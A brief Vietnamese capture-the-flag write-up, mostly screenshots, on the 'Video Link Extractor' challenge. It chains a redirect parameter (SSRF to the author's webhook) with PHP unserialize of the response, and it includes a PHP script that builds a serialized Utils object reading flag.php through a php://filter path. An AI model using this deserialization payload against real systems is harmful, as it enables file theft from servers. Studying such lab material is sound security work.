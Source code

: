 # Video Link Extractor
+ Khi thực hiện extract localhost trang web thực hiện đoạn code:
![image](https://github.com/vanatka10/he/assets/126310360/06a6dfc9-7f99-45cf-b85e-133d1a181369)



+ Ta có thể lợi dụng tham số id để gọi đến `redirect ` và khiến nó truy cập vào trang web khác 
![image](https://github.com/vanatka10/he/assets/126310360/d1d1bbc5-59cd-4973-8196-c9846cf29866)


![image](https://github.com/vanatka10/he/assets/126310360/99240019-5fe8-46ad-8575-ae7b4323b332)

+ Đã thực hiện get vào trang web của mình
![image](https://github.com/vanatka10/he/assets/126310360/00e8be04-3b72-4837-9186-c7da3e175b6f)



Untrusted data sẽ là response ta trả về, khi đó nó được unserialize  
![image](https://github.com/vanatka10/he/assets/126310360/2c57010e-6e94-4039-bdbd-5323eb58a886)

Thêm vào đó object Utils khi __wakeup sẽ gọi $this->_file  
![image](https://github.com/vanatka10/he/assets/126310360/d689a584-bafa-4ff8-ae11-9cf540ae7f47)

Script tạo serialize data:
```
<?php 
class Utils {
    public $_file = "php://filter/convert.base64-encode/resource=flag.php";
};
echo(serialize(new Utils()));
?>
```
Thay kết quả của script vào response của webhook   
![image](https://github.com/vanatka10/he/assets/126310360/93979176-f09a-4bd9-8c70-64047912397c)


![image](https://github.com/vanatka10/he/assets/126310360/2c0eb3a9-b4ee-4d7c-95de-5a1e0a2902cb)

![image](https://github.com/vanatka10/he/assets/126310360/2d1f02ae-3bb2-410e-b5c6-0faa96ea34d9)

